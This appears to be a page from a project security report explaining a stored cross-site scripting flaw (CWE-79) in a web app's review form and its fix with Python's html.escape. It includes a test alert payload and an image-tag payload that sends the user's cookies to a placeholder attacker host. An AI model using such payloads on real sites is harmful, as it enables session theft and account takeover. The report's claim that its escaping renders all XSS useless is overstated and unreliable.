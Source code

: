 <div align="center">
    <h1>CWE-79</h1>
    <i>
        Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')
    </i>
</div>

<br>

## Description

The application does not properly sanitize user input before displaying it on the web page. This can lead to the execution of malicious code.


<br>

## Exploit
This exploit is possible if the user input is displayed on the page, in our case the input is in "Write a review", which will show up in "Reviews".

Most importantly, it will only work if the input is not sanitized, i.e. characters that can mean something in HTML, such as `<` `>` (used in tags), **cannot be displayed in plaintext**.

<br>

## Consequences
In the "Write a review" section, if we try to enter in the name field an HTML image tag with the `onload` parameter:

```html
<img src="image_url.png" onload="alert('pwned')">
```

![](/analysis/CWE-79/insecure_xss.gif)

It worked! An attacker can use a different script to, for example, **send the user's cookies to his private server**:

```html
<img src=x onerror="this.src='http://attacker_ip:attacker_port/?'+document.cookie; this.removeAttribute('onerror');">
```

With this, the attacker can enter the active user login, effectively **taking control of the account**.

<br>

## Mitigation

To prevent such exploit, it is necessary to **escape** certain characters. This means converting characters that can affect the page's HTML structure, such as **`<`, `>`, and `&`**.

To do this, we used python's built-in package called `html`.

With `html.escape()` function, the characters `<`, `>`, and `&` are converted to `&lt;`, `&gt;`, and `&amp;`, respectively.

Just to be sure, we also wrap the input with quotation marks, so that all possibly dangerous attack attempts are parsed as a string.

This renders all XSS attacks useless.

![](/analysis/CWE-79/secure_xss.gif)

---

<div align="center">
<i>
    <a href="/report/README.md">Back to report</a>
</i>
</div>
